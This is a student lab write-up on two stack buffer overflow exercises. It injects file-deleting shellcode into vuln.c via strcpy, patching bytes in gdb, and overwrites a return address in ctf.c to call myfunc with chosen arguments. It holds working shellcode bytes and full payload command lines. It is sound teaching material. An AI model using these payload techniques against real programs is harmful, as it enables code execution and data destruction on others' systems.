Name: Nguyen Thanh Tinh
ID: 22110077
# **Task 1:Inject code to delete file**
Run file asm and get the shellcode
`nasm -g -f elf file_del.asm`
`ld -m elf_i386 -o file_del file_del.o`
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

-> We have the shell code:                  \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile
-> The \xdummyfile because it is not meaningful hexidecimal code.
At here, we have a stack frame:

To achieve the goal of exploiting the buffer overflow vulnerability and execute the assembly code to delete the file "dummyfile," we need to inject the shellcode into the buffer. This involves placing the shellcode in the buffer area, treating it as data, and ensuring that when the function returns, it will jump to this location. At that point, the injected data will be treated as executable code.

Given that the buffer size is 64 bytes, we need to overflow the buffer with a total of 68 bytes (64 for the buffer and 4 bytes for the saved return address).

Since the shellcode itself is 36 bytes long, we need to pad it with 32 bytes of filler data and then overwrite the return address with the address of the buffer where our shellcode is stored. This gives us the structure:

- Shellcode (36 bytes)
- Padding (32 bytes)
- Return address (4 bytes)

Here, we will use the vuln.c program to trigger a buffer overflow

Connect to gdb

Set a break point at 0x0804846b

Run the program by using command:
`r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`



We notice that the first 3 bytes correctly correspond to the shellcode. However, starting from the 4th byte, which is the newline character (0x0a), the `strcpy` function interprets this as a string terminator. As a result, the string copying process stops prematurely, causing the shellcode execution to be interrupted.


Observing the ASCII table, we need to avoid the following characters:
- 0x00 because it marks the end of a string.
- 0x09 because it's the tab character and would split the argument.
- 0x0a because it's the newline character and would also terminate the string.
  
For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to prevent string termination and to identify the position of the return frame.

r $(python -c "print('\xeb\x13\x89\xc0\xb0\x08\xb0\x02\xbb\x7a\x80\x04\x08\xcd\x80\x89\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

At this point, the program will likely report an error because it cannot find the address 0xffffffff.

We need to set `0x0c` to `0x00` at the address 0xffffd66b by using command: `set 0xffffd66b = 0x00`

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd6f8, in the form of \xf8\xd6\xff\xff.

set *0xffffd73c = 0xffffd6f8

The result will be:

The address of the value 0x0f is 0xffffd71b, calculated from the position 0x69 with an address of 0xffffd6c8. We will execute the command: set *0xffffd71b = 0x00
Now the value in the buffer is correct with the shellcode:


However, the file is still not deleted. Let's go back to the ASM code and use "objdump":

Based on the referencing in the ASM code, we can see that:
- The value of address 804807a is copied from EBX.
- The hexadecimal code of the string "dummyfile" is stored at address 804807a.

We need to set 0xffffd651 to point at that using command: set *0xffffd701 = 0x0804807a

continue running the program

-> Delete complete.
# Task 2: Conduct attack on ctf.c
In summary:

We need to locate the address of the `myfunc` function and overwrite the return address of the vulnerable function's stack frame with this address.

- `p = 0x04081211`
- `q = 0x44644262`

The structure of the payload will be as follows:

`(buf[100] + ebp(4) + ReturnA (overwritten by the myfunc address) + s + p + q)`

This translates to:

104 bytes of padding + The address of `myfunc` + 4 bytes of padding + Value `p` + Value `q`

Thus, the total payload becomes: `104 (padding) + the myfunc address + 4 (padding) + p (value) + q (value)`.
Run docker

Debug ctf.c and create ctf.out file with the code: `gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

Get the address of the myfunc function by this command: `objdump -d ctf.out|grep myfunc`

=> The address of myfunc: `0804851b`
connect in gdb and run this code: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

It's stop running with the debug `0x61616161 in ??`
We need to set the address of the `exit` function in the return address of `myfunc`, so that after `myfunc` completes execution, the program will return to the `exit` function and continue running. This ensures that we can retrieve the values of the variables `p` and `q`.
Get the exit's address: ` objdump -d ctf.out|grep exit`

-> The address of the exit: 080483e0

Connect gdb and run again by this command: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

Done!
